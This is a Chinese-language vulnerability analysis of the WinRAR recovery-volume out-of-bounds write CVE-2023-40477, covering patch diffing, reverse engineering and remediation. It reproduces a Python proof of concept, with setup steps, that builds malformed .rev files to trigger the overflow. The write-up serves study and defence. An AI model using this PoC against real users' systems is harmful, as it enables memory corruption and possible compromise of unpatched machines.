

## 0x00 漏洞背景

WinRAR是一款功能强大的压缩和解压缩软件，它允许用户轻松地创建和管理存档文件，将多个文件或文件夹压缩成单个文件以减小文件大小，或解压已有的存档文件。用户可以设置密码来保护存档文件的内容，并在需要时自动解压缩文件。WinRAR还支持多种压缩格式，具有出色的压缩率和压缩速度，适用于各种操作系统，为文件管理提供了便捷工具。

## 0x01 漏洞信息

**2023年6月8日**

安全研究人员goodbyeselene和趋势科技合作报告了该漏洞。

**2023年7月20日**

Winrar官方发布修复该漏洞的Winrar6.23版本。

**2023年8月14日**

CVE收录该漏洞并分配编号cve-2023-40477。

**2023年8月29日**

安全研究人员Barak Sternberg发布此漏洞的部分细节以及PoC。

## 0x02 漏洞影响

该漏洞存在于Winrar6.23版本之前。此漏洞是由用户解压RAR3.0格式的压缩文件造成的，该压缩文件目录下要存在恶意构造的.rev后缀名的恢复卷。

## 0x03 漏洞分析

**1.漏洞信息收集**

首先查看漏洞编号获取信息。可以得到一些模糊的信息，如漏洞产生的地点在于恢复卷（recovery volumes），漏洞的原因是在于没有对用户提交的数据进行校验，可能导致缓冲区溢出，从而导致RCE。


从rarlab上能得到更多信息，如发生的漏洞是处理RAR 3.0格式，触发的漏洞条件是解压与格式错误的rev文件同一目录下的rar文件。


**2.补丁分析**

随后使用BinDiff对比6.22和6.23版本的Unrar.exe。


发现添加了与0xFF大小的检测，大于就跳出，这很像对溢出的检测。


Winrar是闭源的，但是可以找到相关存储库。

https://github.com/aawc/unrar/blob/main/recvol3.cpp

https://github.com/pmachapman/unrar/blob/master/recvol3.cpp

将以上两个文件使用TextDiff对比，发现确实增加了对数据的校验。


IDA反编译Unrar.exe。发现Unrar.exe的代码与recvol3.cpp文件的代码可以对应上



基址偏移0x1F542处对应的代码SrcFile\[CurArcNum\]=(File\*)NewFile;，查看SrcFile定义，发现其是一个File指针的数组，大小为256，随后跟了一个类型为Array的变量。


动态调试发现会不断的给SrcFile数组的元素进行赋值。


如果eax>0xFF就是溢出，可以看到处理Rar100.rev的时候已经溢出了。


 为了确定溢出偏移回到加载的初始地方，对this的指针打内存写入断点，发现断在sub\_41E000内部。其函数主要对this的前0x400字节进行了置0。可以发现这可以和256大小的File指针数组对上（32位软件一个指针占4字节，256\*4 == 1024 == 0x400），随后的5字节是Array变量，但是在源码中只发现了四个字节的内容。


最后对PoC生成及数据来源进行分析。以PoC中的Rar00.rev为例。首先对P\[3\]进行了初始化，数据来源于文件倒数第七个字节开始的三个字节。Rar00.rev此处的数据为F0 00 00，由于加一会导致其在内存中初始化为01 01 F1。


随后会进行P\[1\]+P\[2\] > 255的判断。此处是0xF1+0x01。最后P\[2\]会赋值给FileNumber，然后FileNumber+P\[0\]-1作为索引进行赋值。


由于P\[0\]可控且没有经过验证，故而可以很轻易的让索引大于255，从而导致越界写入，也就是导致了栈溢出。

最后回顾PoC代码和补丁。

``` Python
## CVE-2023-4047 PoC By Wild Pointer // 
 ## DISCLAIMER: Use at your own responsibility - The publisher, author or any of its affiliates aren't responsible for any actions caused, made or generated by using this code and/or repository.
 ## This is just & solely for educational purposes and includes demo example only, not to harm or cause any impact. 
 ## Use this for educational purposes only. Do not use this piece of code for any unethical or unintended behaviour.
 '''
 1. Using Winrar < 6.23, Create RAR4 Archive with one random file (around 100kb is enough), make it "RAR4" type & Enable "Add recovery record".
 2. Choose "split to volumes" - You can put "1024B" (to do many splits, but also some small amounts of splits are enough).
 2. In "Advanced" - change recovery record percentage > 20%, also make recovery volumes > 40, also make - "old name style" in recovery volumes.
 3. Remove "archive_name.r01" - ie the first volume that has recovery volume - so Restore() will be triggered, i.e: delete "archive_name.r01".
 3. Now use the attached code to re-generate malformed "recovery volumes":
 '''
 import zlib
 import struct
 ARCHIVE_NAME = 'YOUR_ARCHIVE_NAME_WITHOUT_SUFFIX_HERE' # CHANGE THIS & MAKE SURE YOU ARE IN THE SAME FOLDER AS THE ARCHIVE.

 def calculate_crc32(data):
     crc_value = zlib.crc32(data)
     return crc_value & 0xFFFFFFFF

 def calc_crc(x):
     res = calculate_crc32(x)
     return struct.pack("<i"< span="">, res)

 # 0. malform .r01 volume
 #data = open('%s.r01' % ARCHIVE_NAME, 'rb').read()
 #data = data[:0x280] + bytes(0x80) + data[0x300:]
 #open('%s.r01' % ARCHIVE_NAME, 'wb').write(data)

 # 1. re-generate malformed recovery vols.
 data = open('%s01.rev' % ARCHIVE_NAME, 'rb').read()
 names = ['%s%s.rev' % (ARCHIVE_NAME, str(i).zfill(2)) for i in range(256)]
 datas = [data[:-7] + bytes([0xf0, 0x00, i]) + calc_crc(data[:-7] + bytes([0xf0, 0x00, i])) for i in range(256)]

 # 2. overwrite malformed recovery vols.
 for i in range(256):
     fname = names[i]
     data = datas[i]
     open(fname, 'wb').write(data)
```

可以发现PoC中的datas = \[data\[:-7\] + bytes(\[0xf0, 0x00, i\]) + calc\_crc(data\[:-7\] + bytes(\[0xf0, 0x00, i\])) for i in range(256)\]就是控制倒数第七个字节开始的三个字节。

而补丁亦对P\[0\]+P\[2\]-1进行了检测。


至此漏洞分析结束，由于本身越界写入的数据是new出来的指针，导致漏洞利用并不简单，并且由于需要存在.rev结尾的恢复卷文件，所以也会让被攻击者产生怀疑，故而此漏洞价值并没有Winrar爆出来的另一个RCE漏洞CVE-2023-38831高。  

## 0x04 修复方法

1.升级Winrar至6.23或更高版本。  

2.不解压存在.rev文件的rar文件。